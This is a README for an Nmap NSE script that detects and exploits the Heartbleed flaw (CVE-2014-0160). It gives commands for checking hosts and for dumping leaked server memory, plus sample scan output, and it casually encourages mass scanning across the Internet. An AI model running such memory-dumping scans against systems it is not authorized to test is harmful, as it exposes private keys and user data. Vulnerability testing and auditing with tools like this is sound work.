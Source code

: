 openssl-heartbleed.nse
======================

Nmap NSE script that discovers/exploits Heartbleed/CVE-2014-0160. It is still in PoC state, so use with caution. This is supposed to make mass-testing easier. Take it on a trip through the Internet!

Due to experimental state it is not yet supposed to be put in the Nmap scripts dir unless you really know what you are doing.

### Usage
#### Check if a host is vulnerable (runs on every SSL/TLS port)
```
$ nmap --script=./openssl-heartbleed.nse host.tld
```
#### Dump leaked memory from a vulnerable host
Dumping leaked memory is enabled by increasing Nmap's debug level via -d flag.
```
$ nmap -d --script=./openssl-heartbleed.nse host.tld
```

### Example Output
```
[ ~/temp/heartbleed ] nmap -p443 --script=./openssl-heartbleed.nse local.de 

Starting Nmap 6.41SVN ( http://nmap.org ) at 2014-04-09 01:58 CEST
Nmap scan report for tune.pk (172.23.0.1)
Host is up (0.12s latency).
PORT    STATE SERVICE
443/tcp open  https
|_openssl-heartbleed: Host is vulnerable to TLS heartbeat read overrun (CVE-2014-0160). Increase debug level for a dump of leaked data.

Nmap done: 1 IP address (1 host up) scanned in 7.66 seconds
```
